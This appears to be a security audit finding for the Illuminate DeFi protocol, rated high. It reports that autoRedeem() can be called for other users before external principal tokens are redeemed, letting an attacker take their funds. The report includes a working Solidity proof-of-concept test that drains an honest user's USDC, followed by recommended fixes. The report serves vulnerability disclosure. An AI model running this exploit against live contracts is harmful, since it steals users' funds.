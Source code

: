 Holmgren

high

# autoRedeem() is fundamentally unsafe because it's possible before redeeming external principal tokens

## Summary

`autoRedeem()`ing other users is possible before the external principal tokens have been redeemed.

## Vulnerability Detail

If any user enabled auto-redeem, an attacker can auto-redeem that user's Illuminate tokens before performing redemption of the external principal tokens. Thus auto-redemption of the honest user will happen at an artificially low valuation. A sophisticated attacker can make sure that this happens in the first block after maturity of the external principal tokens. The attacker can then redeem his own Illuminate at an increased valuation.

## Impact

For any user that enables autoRedeem, part of his redemption can be easily stolen.

## Code Snippet
The method in question: https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Redeemer.sol#L485

PoC, add this to `test/fork/Redeemer.t.sol`:
```solidity
    function testAutoRedeem_exploit() public {
        deployMarket(Contracts.USDC, 0);

        address user = 0x7111F9Aeb2C1b9344EC274780dc9e3806bdc60Ef;
        address attacker = address(123456);

        address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
        address yieldToken = Contracts.YIELD_TOKEN;

        uint256 attackersBalance = 1 wei;

        // starting balances
        deal(illuminateToken, user, startingBalance, true);
        // The attacker has some tiny amount of Illuminate token
        deal(illuminateToken, attacker, attackersBalance, true);
        // They both got their Illuminate by lending to YieldSpace
        deal(yieldToken, address(l), startingBalance + attackersBalance);

        vm.startPrank(address(l));
        IERC20(yieldToken).approve(address(r), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(user);
        // The user opts-in to autoRedeem()
        IERC20(Contracts.USDC).approve(address(r), startingBalance);
        vm.stopPrank();

        // Right at maturity
        vm.warp(IYieldToken(yieldToken).maturity());
        vm.startPrank(attacker);
        // The attacker auto-redeems all the users that can be auto-redeemed before anyone has redeemed the external Principal Token
        address[] memory onBehalfOf = new address[](1);
        onBehalfOf[0] = user;
        r.autoRedeem(Contracts.USDC, maturity, onBehalfOf);

        // Now that other users no longer have their Illuminate token, the
        // attacker redeems the external principal tokens
        r.redeem(2, Contracts.USDC, maturity);

        // And the attacker redeems his own Illuminate tokens
        r.redeem(Contracts.USDC, maturity);
        vm.stopPrank();

        // The honest user didn't receive any USDC
        assertEq(IERC20(Contracts.USDC).balanceOf(user), 0);
        // And has also lost all his Illuminate
        assertEq(IERC20(illuminateToken).balanceOf(user), 0);
        // The attacker has more than startingBalance of USDC, even though he
        // never owned that much Illuminate
        assertGt(IERC20(Contracts.USDC).balanceOf(attacker), startingBalance);
    }
```

## Tool used

Manual Review

## Recommendation

* Remove `autoRedeem()`, or
* At the beginning of `autoRedeem()` call the `redeem()` method for all the external principal tokens